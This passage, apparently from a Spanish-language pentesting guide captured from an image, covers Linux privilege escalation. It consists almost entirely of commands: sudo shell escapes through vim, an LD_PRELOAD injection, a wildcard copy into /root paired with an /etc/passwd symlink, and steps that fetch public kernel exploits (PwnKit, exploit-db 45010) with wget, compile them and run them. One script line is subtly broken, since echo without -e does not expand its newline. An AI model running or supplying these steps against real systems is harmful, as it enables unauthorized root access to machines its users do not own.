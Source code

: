### 3. Explotación de Sudo

```bash
# Verificar permisos sudo
sudo -l

# Ejemplos de escalada con sudo:

# 1. Sudo sin password en comando específico
sudo /usr/bin/vim /etc/hosts
# Dentro de vim: :!/bin/bash

# 2. Sudo con comodines
sudo /bin/cp /home/user/* /root/
# Crear symlink: ln -s /etc/passwd /home/user/passwd

# 3. Variables de entorno en sudo
sudo LD_PRELOAD=./shell.so /usr/bin/apache2

# 4. Script personalizado con sudo
echo '#!/bin/bash\n/bin/bash' > /tmp/script.sh
chmod +x /tmp/script.sh
sudo /tmp/script.sh
```

### 4. Kernel Exploits

```bash
# Identificar versión del kernel
uname -r
cat /proc/version

# Buscar exploits conocidos
searchsploit linux kernel 4.15.0
searchsploit ubuntu 18.04

# Ejemplos de exploits comunes:
# CVE-2021-4034 (PwnKit)
wget https://github.com/arthepsy/CVE-2021-4034/raw/main/cve-2021-4034-poc.c
gcc cve-2021-4034-poc.c -o exploit
./exploit

# CVE-2017-16995 (Ubuntu 16.04)
wget https://www.exploit-db.com/raw/45010 -O 45010.c
gcc 45010.c -o exploit
./exploit
```

## 💻 Escalada de Privilegios en Windows

### 1. Enumeración de Windows
